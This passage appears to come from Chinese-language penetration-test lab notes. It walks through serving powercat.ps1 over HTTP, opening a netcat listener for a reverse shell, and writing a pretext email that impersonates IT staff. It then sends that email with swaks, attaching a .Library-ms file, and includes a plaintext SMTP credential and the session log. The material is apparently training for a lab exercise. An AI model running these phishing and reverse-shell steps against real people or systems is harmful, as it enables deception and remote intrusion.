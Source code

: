 
#### 4. 設定 PowerCat Server
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

┌──(chw㉿CHW)-[~/beyond]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
#### 5. 啟動 Netcat 監聽
```
┌──(chw㉿CHW)-[~/beyond]
└─$ nc -nvlp 8888
listening on [any] 8888 ..
```
#### 6. 發送釣魚郵件
在 `/beyond/webdav` 建立 body.tx
```                                   
┌──(chw㉿CHW)-[~/beyond/webdav]
└─$ cat body.txt        
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
> 偽裝成內部 IT 人員，誘導受害者開啟 `.Library-ms` 檔案

使用 `swaks` 送出釣魚郵件
```
┌──(chw㉿CHW)-[~/beyond/webdav]
└─$ ls
body.txt  config.Library-ms  powershell.lnk
       
┌──(chw㉿CHW)-[~/beyond/webdav]
└─$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.117.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
[sudo] password for chw: 
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.117.242:25...
=== Connected to 192.168.117.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO CHW.CHW
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
```